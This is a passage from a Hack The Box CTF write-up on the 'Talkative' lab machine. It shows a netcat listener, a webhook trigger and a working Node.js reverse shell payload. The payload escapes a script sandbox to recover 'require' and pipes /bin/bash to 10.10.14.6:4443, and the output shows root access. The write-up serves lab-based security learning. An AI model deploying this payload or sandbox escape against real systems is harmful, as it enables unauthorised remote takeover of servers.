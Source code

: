 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230812181901.png)

> Note: I changed to "Incoming Webhook Integration", as it's easier to exploit.

- **Setup a netcat listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:19:17(HKT)]
└> nc -lnvp 4443          
listening on [any] 4443 ...
```

**However, the reverse shell payload doesn't work...**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:21:19(HKT)]
└> curl http://talkative.htb:3000/hooks/yrGtgcuoABYtBq5nc/9XPMCbtQotENyDwtogtujo89EvX7n7aQRaRa4y4roaFcKwJR
{"success":false}
```

After reading a [writeup from 0xdf](https://0xdf.gitlab.io/2022/08/27/htb-talkative.html#webhook-integration), looks like the `require` keyword may not be available in the given context.

**To fix that, we can add the following line:**
```javascript
const require = console.log.constructor('return process.mainModule.require')();
```

**Fixed Node.js reverse shell payload:**
```js
(function(){
    const require = console.log.constructor('return process.mainModule.require')();
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4443, "10.10.14.6", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

**Next, update the script again and it should work:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|18:19:17(HKT)]
└> nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.155] 38404
whoami; hostname; id; hostname -i
root
c150397ccd63
uid=0(root) gid=0(root) groups=0(root)
172.17.0.3
```
